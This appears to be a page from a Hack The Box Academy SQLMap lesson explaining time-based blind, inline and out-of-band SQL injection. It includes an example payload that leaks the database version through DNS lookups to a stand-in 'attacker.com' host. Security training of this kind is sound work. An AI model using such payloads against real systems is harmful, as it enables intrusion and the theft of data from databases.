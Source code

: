 The principle of `Time-based blind SQL Injection` is similar to the `Boolean-based blind SQL Injection`, but here the response time is used as the source for the differentiation between `TRUE` or `FALSE`.

- `TRUE` response is generally characterized by the noticeable difference in the response time compared to the regular server response

- `FALSE` response should result in a response time indistinguishable from regular response times


`Time-based blind SQL Injection` is considerably slower than the boolean-based blind SQLi, since queries resulting in `TRUE` would delay the server response. This SQLi type is used in cases where `Boolean-based blind SQL Injection` is not applicable. For example, in case the vulnerable SQL statement is a non-query (e.g. `INSERT`, `UPDATE` or `DELETE`), executed as part of the auxiliary functionality without any effect to the page rendering process, time-based SQLi is used out of the necessity, as `Boolean-based blind SQL Injection` would not really work in this case.

* * *

## Inline queries

Example of `Inline Queries`:

```SQL
SELECT (SELECT @@version) from

```

This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.

* * *

## Out-of-band SQL Injection

Example of `Out-of-band SQL Injection`:

```SQL
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))

```

This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.

By running the SQLMap on the DNS server for the domain under control (e.g. `.attacker.com`), SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g. `foo.attacker.com`), where `foo` would be the SQL response we want to receive. SQLMap can then collect these erroring DNS requests and collect the `foo` part, to form the entire SQL response.

Enable step-by-step solutions for all questions
![sparkles-icon-decoration](https://academy.hackthebox.com/images/sparkles-solid.svg)

#### Questions
